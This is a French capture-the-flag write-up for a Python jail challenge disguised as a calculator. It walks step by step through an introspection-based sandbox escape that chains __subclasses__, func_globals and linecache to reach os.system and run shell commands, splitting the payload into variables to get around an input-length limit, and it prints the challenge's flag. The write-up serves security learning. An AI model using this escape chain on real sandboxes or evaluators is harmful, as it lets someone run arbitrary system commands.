


# Python - Jail - Exec

## Description : 
> Dans ce défi, l'utilisateur est confronté à une jail python, déguisée en une simple calculatrice. Le but est de trouver le fichier de mot de passe situé quelque part dans un sous dossier (comme indiqué sur la page du challenge) et de l'afficher à l'écran. Pour ce faire, il faudra s'appuyer sur les techniques d'introspection en python.
En outre, la taille de l'entrée est limitée à un certain nombre de caractères, ce qui rend l'introspection un peu plus fastidieuse.

## Exploit : 
> L'objectif est donc de rechercher et de montrer le flag. Pour ce faire, il faut trouver un moyen d'exécuter des commandes système comme `ls` et `cat`.
> Il est possible d'afficher des objets liés à un type, comme **()**, en faisant **().\_\_class\_\_.\_\_dict\_\_**. En fait, **\_\_dict\_\_** est fortement utilisé pour explorer les objets à différents niveaux de profondeur, jusqu'à ce que l'on trouve **system.os**.
> 
> En raison de la limitation du nombre de caractères à l'entrée, il sera nécessaire de diviser le payload en plus petites portions et de stocker ces portions dans des variables. De nouvelles variables peuvent être définies en utilisant **\_\_builtins\_\_**. 
> 
> Le payload est construit comme suit
> 
> `__builtins__['b']=__builtins__`, ici on déclare une nouvelle variable **b** qui nous permettra d'appeler **\_\_builtins\_\_** en économisant des caractères. 
> 
> `b['o']=().__class__.__bases__[0]` , l'exploration vers le module à importer se fait donc à partir du type liste.
> 
> `b['c']=o.__subclasses__()`
> 
> `b['d']=c[59].__init__`
> 
> `b['e']=d.__getattribute__`
> 
> `b['f']=e("func_globals")`
> 
> Ici on s'intéresse au module **linecache** car il inclut probablement le module **os**
> 
> `b['g']=f["linecache"]`
> 
> `b['h']=g.__dict__['os']`
>
> On cherche **system** dans **os** avec
> 
> `h.__dict__.keys().index("system")` on trouve que **system** se trouve à l'index **144**
> 
> `b['j']=h.__dict__.values()[144]`
> 
> À ce stade, la fonction **os.system** est située dans la variable **j**. Il suffit donc de passer la commande à exécuter à **j** entre parenthèses pour obtenir un résultat.
> 
> On cherche d'abord à exécuter `ls` pour localiser le sous dossier du fichier flag
> 
> 
> 
> On remarque donc que le dossier qui nous intéresse est **GetTheFlagInThisDirectory**, qui est de toute évidence un nom trop long pour être passé comme paramètre à la fonction **j()**... 
> 
> Ce chemin doit être divisé en différentes variables, puis concaténé et passé en paramètre à la fonction **j()**.
> 
> 
> 
> Le flag trouvé est donc : **PythonAlwaysHasAllYouNeed!**